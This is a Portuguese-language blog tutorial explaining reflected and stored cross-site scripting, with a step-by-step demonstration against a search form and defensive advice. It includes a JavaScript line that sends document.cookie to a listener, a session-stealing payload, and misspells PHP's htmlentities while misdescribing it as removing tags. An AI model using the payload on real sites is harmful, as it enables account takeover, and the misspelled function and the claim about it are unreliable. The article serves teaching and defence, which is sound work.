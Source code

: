 # Ataque XSS: Exemplo e 3 passos para entender como funciona o Cross-Site Scripting

O ataque XSS é um dos principais riscos de segurança de aplicações web. Nesse post você vai descobrir o que é e como ele funciona.

O ataque XSS é um dos principais riscos de segurança de aplicações web. Nesse post você vai descobrir o que é e como ele funciona.

De acordo com o [top 10 principais riscos de segurança de aplicações da web](https://owasp.org/www-project-top-ten/), pesquisa da OWASP (Projeto Aberto de Segurança em Aplicações Web), o ataque XSS é um das vulnerabilidades mais exploradas por hackers do mundo todo.

Além disso, vale ressaltar que até mesmo grandes sites da internet podem ser vulneráveis à ataques XSS. Um exemplo disso é uma falha que existia no [webmail da UOL](https://webmail.uol.com.br/), reportada pelo youtuber e especialista em segurança da informação [Gabriel Pato](https://www.youtube.com/watch?v=Ud-Z3vrJKTk).

Sendo assim, se você é um desenvolvedor web ou está iniciando na área, é essencial que você saiba como essa vulnerabilidade funciona. Nesse artigo, você descobrirá como esses ataques são feitos e como evitar que eles aconteçam nos seus sites.

## O que é um ataque XSS?

Como disse anteriormente, o **Cross-Site Scripting (XSS)** é uma das principais falhas presentes em sites e sistemas web. Com esse tipo de ataque, uma pessoa má intencionada pode conseguir **roubar a sessão de um usuário** (entrar na conta dele, mesmo sem ter usuário e senha), **fazer deface** em um website (alterar o conteúdo da página para uma foto dos anonymous é um dos mais famosos haha), roubar informações pessoais, redirecionar a pessoa para outro link e muito mais.

Existem dois principais tipos de ataques. São eles: **Reflected XSS**, e **Stored XSS**. Saiba mais sobre eles abaixo:

### **Reflected XSS**

Nesse tipo de ataque XSS, o hacker procura por um campo de pesquisa, por exemplo, ou uma página que aceite parâmetros, como: **www.exemplo.com.br/pesquisa.php?pesquisa=teste**

Alguns sites retornam essa busca na página, como por exemplo: “Você procurou por teste”, ou ainda “0 resultados para a palavra teste”.

Essa informação é renderizada no navegador pela linguagem de programação, como o PHP, por exemplo, e caso ela não seja tratada, o hacker pode executar códigos maliciosos no lugar do texto.

Segue abaixo um exemplo de ataque XSS reflected:

#### 1- O atacante encontra um formulário, como o de pesquisa do exemplo abaixo.

![img](https://devgabrielsouza.com.br/wp-content/uploads/2021/03/Ataque-XSS-via-formulario-de-pesquisa.jpg)Ataque XSS via formulário de pesquisa

Em seguida, o atacante verifica se o que ele pesquisou é mostrado de volta para o usuário. Caso positivo, ele sabe que talvez possa realizar um ataque XSS.

![img](https://devgabrielsouza.com.br/wp-content/uploads/2021/03/Ataque-XSS-via-formulario-de-pesquisa-renderizado.jpg)Ataque XSS resultado do formulário de pesquisa

#### 2 – A pessoa realiza teste com tag html para descobrir se o site é vulnerável à ataque XSS

Primeiramente, precisamos verificar se o campo do formulário envia tags HTML, e se na próxima página o navegador renderizará esse HTML. No exemplo abaixo, fazemos o teste direto com uma tag de script.

![img](https://devgabrielsouza.com.br/wp-content/uploads/2021/03/Passando-um-script-no-campo-de-pesquisa-de-um-site-para-tentativa-de-ataque-XSS.jpg)Teste de vulnerabilidade XSS em formulário de pesquisa

Se o site for vulnerável, na próxima página, o navegador deve emitir um alerta com a mensagem “teste”.

![img](https://devgabrielsouza.com.br/wp-content/uploads/2021/03/Vulnerabilidade-XSS.jpg)

E lá está o alerta! Isso significa que o site é vulnerável a XSS. Mas que tipo de ataque podemos fazer?

#### 3 – Realizando o ataque XSS

No exemplo abaixo, irei utilizar um código javascript que pega o cookie da vítima e “envia” para um servidor HTTP, com o cookie como parâmetro. Dessa forma, podemos ver no log do servidor qual foi a requisição HTTP feita pelo client.

![img](https://devgabrielsouza.com.br/wp-content/uploads/2021/03/Ataque-XSS-exemplo-de-roubo-de-cookie-1024x736.jpg)Roubo de cookie com ataque XSS

Nesse exemplo, nós iniciamos um servidor HTTP na porta 80. Qualquer requisição HTTP para nosso servidor (que no caso é o localhost), aparecerá no console para que possamos visualizar.

Dessa forma, eu faço a seguinte solicitação, pelo código javascript:

```
new Image().src="http:/localhost/?="+document.cookie
```

Com esse código, eu digo para o navegador carregar uma “imagem” com a url http:/localhost/ e com o parâmetro?cookie = **document.cookie**. A imagem não existe na url informada, obviamente, porém nosso servidor mantem o registro de todas as solicitações HTTP.

Dessa forma, conseguimos o código de sessão da vítima!

**Se você não sabe como funcionam as requisições HTTP, sugiro que leia o meu artigo sobre o assunto:**[ HTTP: Saiba o que é e como funciona](https://devgabrielsouza.com.br/ataque-xss/#)

![img](https://devgabrielsouza.com.br/wp-content/uploads/2021/03/cookie-capturado-pelo-XSS.jpg)Cookie capturado por XSS

Resumindo: nesse tipo de ataque, uma pessoa má intencionada encontra uma url com vulnerabilidade, cria um link com a url e o parâmetro (javascript) e envia para suas vítimas.

Geralmente esse tipo de ataque é feito em larga escala, sendo enviados email de spam para várias pessoas ao mesmo tempo, com a finalidade de que algumas cliquem no link e tenham seus dados expostos.

### Stored XSS

Nesse tipo de ataque XSS, o código javascript é **salvo no banco de dados**. Dessa forma, qualquer usuario que tentar acessar o site irá executar o código malicioso.

Um exemplo são campos de comentários. Se a pessoa comentar com um script js e o site não tiver as devidas medidas de segurança, o código pode ser executado sempre que alguém entrar na página.

Esse tipo de ataque é mais perigoso que o reflected, já que o código malicioso sempre será executado (até que alguem remova do banco de dados).

## Como se proteger de um ataque XSS

Para evitar esse tipo de ataque, você deve sempre prestar atenção antes de clicar em um link recebido. Para isso:

- Veja se existem tags html (<script>, <a>, <p>, etc) na url. Se houver, não clique no link!
- Se o link estiver encurtado, como por exemplo “bit.ly/link”, experimente abrí-lo em uma guia anônima, para previnir
- Dê preferência a sites que tenham certificado de segurança SSL (“site seguro”). Se o site não tiver o certificado, evite ficar navegando nele!
- Sempre atualize a versão do seu navegador de internet

## Como proteger seus sites de ataques XSS

Visto que os ataques XSS acontecem pela falta de validação dos dados pelo servidor, para evitar essas vulnerabilidades, **você deve controlar a entrada de dados nos formulários** (front-end) e também tratar esses dados no servidor (back-end).

Um exemplo de tratamento na linguagem de programação **PHP** é a utilização da função **htmlentites**(), que re**move todas as tags html** e converte as aspas duplas do texto:

```
htmlentites()
```

Dessa forma, quando a página carregar, o javascript do texto será ignorado e não executará. Porém, é importante que utilize outras formas de validação em conjunto, como por exemplo a utilização de tokens, entre outras medidas.

## Conclusão

Como pudemos ver nesse artigo, o cross-site scripting (xss) é uma falha extremamente grave, que permite até mesmo o acesso indevido à contas de outras pessoas. Portanto, é importante que todo desenvolvedor web saiba como ela funciona e como evitá-la.

E se você leu esse artigo do início ao fim, você já deve ter uma boa noção sobre XSS. ![😀](https://s.w.org/images/core/emoji/13.1.0/svg/1f600.svg)

Sendo assim, se esse artigo foi útil para você, compartilhe ele com seus amigos que tem interesse nessa área, talvez esse post possa ajudá-los também! Além disso, sintá-se a vontade para deixar sua opinião sobre esse assunto nos comentários!

## Leia também

[![Como aprender programação sozinho](https://devgabrielsouza.com.br/wp-content/uploads/2021/03/Dia-1-Capa-para-post-site-300x300.jpg)](https://devgabrielsouza.com.br/como-aprender-programacao-sozinho/)

## [Como aprender programação sozinho](https://devgabrielsouza.com.br/como-aprender-programacao-sozinho/)

5 de março de 2021 Nenhum comentário

Nesse artigo você verá porque e como aprender programação e como criar uma jornada sólida de estudos.